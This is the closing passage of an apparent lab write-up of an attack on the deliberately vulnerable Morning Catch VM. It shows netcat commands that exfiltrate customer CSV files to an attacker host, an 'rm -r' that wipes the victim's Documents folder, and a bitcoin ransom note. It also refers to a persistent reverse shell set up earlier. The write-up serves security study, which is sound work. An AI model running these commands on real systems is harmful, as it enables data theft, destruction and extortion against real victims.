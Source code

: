 > [!NOTE]
>
> While `rbourne` had sufficient privileges to execute the final step of this attack, this persistent reverse shell has system wide access and could be used for potential future attacks. Furthermore, the CEO might not even realize it exists, since he will be distracted by the missing files.

#### 2.3. Stealing the files

Finally, the attacker steals the interesting files with `netcat`.

The attacker opens a new listener on a different port to receive data.

```bash
nc -lvnp 1234 > customers.csv
```

On the terminal of the victim, through the reverse shell:

```bash
cat Documents/customers.csv | nc mornincatch.ph 1234
```

The `mornincatch.ph` name on the victim machine resolves the attacker's IP. The attacker does the same with `company_picnic.csv`. 

Then lastly on the victim machine:

```bash
rm -r Documents/*
echo "ATTENTION: we have your sensitive data (SSN, credit card). The originals were deleted. Pay 5.0 BTC to bc1adfka3flasjdlks2mdl0asmd or they get published. YOU HAVE 72 HOURS." > Documents/STOLEN_FILES_READ.txt
```

So the attacker successfully exfiltrated the sensitive data and deleted the original files from the victim's system, leaving a ransom note behind. The attack is completed!

## References

**LLM usage:** both Gemini and ChatGPT were used for technical support.

**Morning Catch VM**

* https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/ 

**For the Phishing attack**

* https://github.com/dc865/writeups/blob/master/MorningCatch/CredHarvesting.md

**For the persistent Reverse Shell**

* https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence
* https://stackoverflow.com/questions/55240626/bash-reverse-shell-command-cron-job-not-working-i-give-up
* https://superuser.com/questions/98089/sending-file-via-netcat

